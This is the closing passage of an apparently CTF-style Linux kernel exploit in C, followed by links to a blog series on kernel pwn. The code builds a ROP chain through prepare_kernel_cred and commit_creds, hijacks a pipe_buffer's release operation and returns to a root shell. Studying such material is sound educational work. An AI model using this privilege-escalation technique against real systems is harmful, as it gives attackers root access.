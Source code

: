 ```c
    buf[4] = kernel_offset + PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET;
    buf[5] = *(size_t*) "arttnba3";
    buf[6] = *(size_t*) "arttnba3";
    buf[7] = kernel_offset + POP_RDI_RET;
    buf[8] = (size_t) NULL;
    buf[9] = kernel_offset + PREPARE_KERNEL_CRED;
    buf[10] = kernel_offset + XCHG_RDI_RAX_DEC_STH_RET;
    buf[11] = kernel_offset + COMMIT_CREDS;
    buf[12] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x31;
    buf[13] = *(size_t*) "arttnba3";
    buf[14] = *(size_t*) "arttnba3";
    buf[15] = (size_t) get_root_shell;
    buf[16] = user_cs;
    buf[17] = user_rflags;
    buf[18] = user_sp + 8; /* system() wants it : ( */
    buf[19] = user_ss;

    del(0);
    alloc(0, PIPE_BUFFER_SZ, buf);

    /* trigger pipe_buf_operations->release */
    puts("[*] trigerring pipe_buf_operations->release()...");

    close(pipe_fd[1]);
    close(pipe_fd[0]);

    return 0;
}

```

## REFERENCE

[【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/)

[【PWN.0x02】Linux Kernel Pwn II：常用结构体集合](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/)